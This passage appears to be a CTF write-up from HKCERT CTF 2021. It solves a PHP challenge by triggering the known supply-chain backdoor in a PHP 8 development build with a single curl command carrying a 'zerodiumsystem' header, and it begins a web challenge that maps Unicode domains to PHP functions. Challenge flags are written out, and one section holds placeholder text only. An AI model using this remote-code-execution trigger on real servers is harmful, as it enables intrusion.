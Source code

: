 Mystiz likes PHP most. He has been programming in PHP at the time PHP 5 was released. Time flies and here comes PHP 8. He decided to craft a Docker image as a sandbox... What can go wrong?

<http://chalp.hkcert21.pwnable.hk:28364/>
### Attachment:
- [sea-of-thorns_e045a87b1909724e7292510354cc1f3b.zip](https://github.com/6cyril/ctf-writeups/blob/master/HKCERT%20CTF%202021/files/sea-of-thorns_e045a87b1909724e7292510354cc1f3b.zip?raw=true)
### Solution:  
* Check the Dockerfile the challenge is built on a specific PHP version
```
RUN cd /tmp && wget https://github.com/php/php-src/archive/c730aa26bd52829a49f2ad284b181b7e82a68d7d.zip \
            && unzip c730aa26bd52829a49f2ad284b181b7e82a68d7d.zip \
            && cd php-src-* && ./buildconf && ./configure --with-zlib && make -j4
```
* Googling it shows that it's a PHP version affected by recent supply chain attack and has a backdoor  
* Find link with instruction to exploit it [here](https://www.qiuye.ink/2021/04/03/php%E4%BB%BB%E6%84%8F%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C/)
* Run command `curl -H 'User-Agentt: zerodiumsystem("cat index.php");' http://chalp.hkcert21.pwnable.hk:28364/`
  
Flag: `hkcert21{vu1n3r1b1li7ie5_m1gh7_c0m3_fr0m_7h3_5upp1y_ch41n}`  
  
## Cipher Mode Picker (crypto 100 pts)  
### Challenge:  
```
Placeholder    
Line 1    
Line2    
Line3    
  
```
  
### Solution:  
Placeholder    
Line 1    
Line2    
Line3    
  
  
Flag: `hkcert21{w3_sh0u1d_n0t_g1v3_much_fr3ed0m_t0_us3r5_wh3n_1t_c0m3s_t0_cryp70gr4phy}`  
  
## Tuning Master (Read) (web misc 150 pts)  
### Challenge:  
```
Do you know how to cast spells, Shaman King?  
http://偽女子.柳枊曳曳棘朿.ctf通靈師.hkcert.dsa.2048.pub:28237  
http://偽女子.哪咧嘩唔咬哤.ctf通靈師.hkcert.dsa.2048.pub:28237  
Part 1: Read the source code of home page  
```
### Solution:  
1. After some trial-and-error I could find out below relationships:  
```
偽女子 xn--czq51t5pb
柳枊曳曳棘朿 = bin2hex() xn--mova2urk5r76b
哪咧嘩唔咬哤 = hex2bin() xn--surk2ova5so5d
柳枊曳曳棘朿.哪咧嘩唔咬哤 = hex2bin(bin2hex) =  /var/www/html/index.php
```
- Visiting 柳枊曳曳棘朿.哪咧嘩唔咬哤.ctf通靈師.hkcert.dsa.2048.pub:28237 returns `/var/www/html/index.php` which seems to be the original input to functions  